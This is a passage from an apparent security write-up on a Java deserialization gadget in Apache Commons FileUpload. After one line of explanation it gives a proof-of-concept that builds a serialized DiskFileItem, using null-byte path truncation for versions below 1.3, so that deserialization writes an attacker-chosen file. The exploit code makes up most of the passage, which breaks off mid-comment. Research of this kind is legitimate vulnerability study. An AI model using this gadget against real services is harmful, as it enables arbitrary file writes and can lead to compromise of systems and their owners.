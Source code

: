 Then make a judgment on `cachedContent`, and if it is not empty, directly `write`. Otherwise, copy the content of the `dfosFile` file to `OutputStream` and write it out, and delete the file.

# POC
```java
package org.h3rmesk1t.FileUpload;

import org.apache.commons.fileupload.disk.DiskFileItem;
import org.apache.commons.io.output.DeferredFileOutputStream;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.Base64;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/15 9:02 pm
 */
public class FileUploadExploit {

    public static String serialize(Object obj) throws Exception {

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        byte[] expCode = byteArrayOutputStream.toByteArray();
        objectOutputStream.close();
        return Base64.getEncoder().encodeToString(expCode);
    }

    public static void unserialize(String expBase64) throws Exception {

        byte[] bytes = Base64.getDecoder().decode(expBase64);
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }

    public static void main(String[] args) throws Exception {

        // Create a file write directory File object, and file write content.
        byte[] bytes = "Hello, H3rmesk1t".getBytes(StandardCharsets.UTF_8);

        // Below version 1.3, you can use \0 to cut it
        File repository = new File("/Users/h3rmesk1t/Desktop/FileUpload/hello.txt\0");

        // 1.3.1 and above versions, only directories can be specified
        // File File repository = new File("/Users/h3rmesk1t/Desktop/FileUpload");

        // Create a dfos object.
        DeferredFileOutputStream deferredFileOutputStream = new DeferredFileOutputStream(0, repository);

        // Use repository to initialize the deserialized DiskFileItem object.
        DiskFileItem diskFileItem = new DiskFileItem(null, null, false, null, 0, repository);

        // WriteObject requires that dfos cannot be null during serialization.
        Field dfosFile = DiskFileItem.class.getDeclaredField("dfos");
        dfosFile.setAccessible(true);
        dfosFile.set(diskFileItem, deferredFileOutputStream);

        // Reflection writes cachedContent to.
```